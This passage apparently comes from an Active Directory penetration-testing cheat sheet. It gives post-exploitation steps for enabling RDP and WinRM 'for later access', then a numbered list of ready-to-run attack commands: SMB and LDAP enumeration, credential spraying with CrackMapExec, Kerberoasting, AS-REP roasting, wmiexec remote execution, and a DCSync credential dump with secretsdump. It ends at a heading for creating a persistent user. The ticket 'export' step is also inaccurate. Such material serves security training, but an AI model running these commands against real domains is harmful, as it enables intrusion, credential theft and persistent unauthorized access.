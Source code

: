 3. **Dump credentials and tickets for future use**

   * Export Kerberos TGT/ TGS tickets:

     ```powershell
     klist purge
     klist get krbtgt
     ```

4. **Enable Remote Services (RDP, WinRM) for later access**

   * If RDP/WinRM disabled, use `Set-Item` in registry or `Enable-PSRemoting`.

     ```powershell
     # Enable RDP
     Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0

     # Enable WinRM
     Enable-PSRemoting -Force
     ```

### Sample Command Summary

> The following is a quick reference of key commands (replace placeholders appropriately).

```bash
# 1. Nmap reconnaissance
nmap -p 88,135,139,389,445,464,636,3268 -sV -Pn 10.10.10.5

# 2. enum4linux
enum4linux -a 10.10.10.5

# 3. smbclient null session
smbclient -L \\10.10.10.5 -N

# 4. rpcclient user enumeration
rpcclient -U "" -N 10.10.10.5
> enumdomusers

# 5. CrackMapExec credential check
crackmapexec smb 10.10.10.5 -u 'svc_user' -p 'Passw0rd!'

# 6. LDAP enumeration (anonymous)
ldapsearch -x -h 10.10.10.5 -s sub -b "DC=corp,DC=local" "(objectClass=user)" sAMAccountName

# 7. Kerberoasting (Impacket)
GetUserSPNs.py CORP.LOCAL/username:Passw0rd! -dc-ip 10.10.10.5 -request

# 8. AS-REP roasting
GetNPUsers.py CORP.LOCAL/ -dc-ip 10.10.10.5 -usersfile users_no_preauth.txt -format john

# 9. SMB execution
wmiexec.py CORP.LOCAL/svc_exec:Passw0rd!@10.10.10.5

# 10. Local privilege escalation check (winPEAS)
# Upload winPEAS.bat, then on remote:
.\winPEAS.bat

# 11. DCSync with secretsdump
secretsdump.py CORP.LOCAL/replicator:Passw0rd!@10.10.10.5 -just-dc-cred

# 12. Create persistent user (PowerShell)
```